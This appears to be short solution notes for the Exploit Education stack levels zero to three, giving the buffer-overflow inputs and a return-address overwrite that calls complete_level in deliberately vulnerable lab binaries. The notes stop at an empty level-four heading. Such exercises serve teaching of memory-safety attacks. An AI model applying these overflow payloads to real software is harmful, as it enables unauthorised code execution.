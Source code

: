 ## ZERO
run stack-zero
enter `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa` to buffer overflow the changeme
## ONE
./stack-one aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabYlI
## TWO
Run export ExploitEducation=`python -c 'print ("a" * 64 + "\x0a\x09\x0a\x0d")'`
This sets the environment variable to override changeme.
Then run stack-two
## THREE
`objdump -t stack-three` to get the symbol table. complete_level function is located at 000000000040069d. Then run the command to overflow and call the function:
echo `python -c 'print("a" * 64 + "\x9d\x06\x40\x00")'` | ./stack-three
## FOUR